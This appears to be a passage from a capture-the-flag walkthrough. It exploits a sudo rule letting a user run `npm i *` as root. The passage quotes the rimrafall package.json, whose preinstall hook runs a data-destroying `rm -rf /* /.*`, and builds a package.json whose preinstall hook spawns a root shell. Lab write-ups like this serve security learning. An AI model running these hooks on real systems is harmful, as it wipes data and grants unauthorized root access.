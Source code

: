 Enumeration is often short when I find something interesting in the
first place I check, `sudo -l`:



    algernon@holiday:~$ sudo -l
    Matching Defaults entries for algernon on holiday:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User algernon may run the following commands on holiday:
        (ALL) NOPASSWD: /usr/bin/npm i *



This user can run `npm` as root without a password.

### NodeJS npm

Some googling led me to [this
post](https://github.com/joaojeronimo/rimrafall) about how npm can be
dangerous. The idea is that a NodeJS package is defined in a file,
`package.json`. The example from this repository looks like:



    {
      "name": "rimrafall",
      "version": "1.0.0",
      "description": "rm -rf /* # DO NOT INSTALL THIS",
      "main": "index.js",
      "scripts": {
        "preinstall": "rm -rf /* /.*"
      },
      "keywords": [
        "rimraf",
        "rmrf"
      ],
      "author": "João Jerónimo",
      "license": "ISC"
    }



There's an item in there, `scripts` with a child `preinstall` that is a
command that will run, before the install.

### Shell

I'll create my own `package.json` in a folder for my fake Node app.
`npm` requires that a package have a name and a version.



    algernon@holiday:/dev/shm$ cat 0xdf/package.json 
    {
      "name": "root_please",
      "version": "1.0.0",
      "scripts": {
        "preinstall": "/bin/bash"
      }
    }
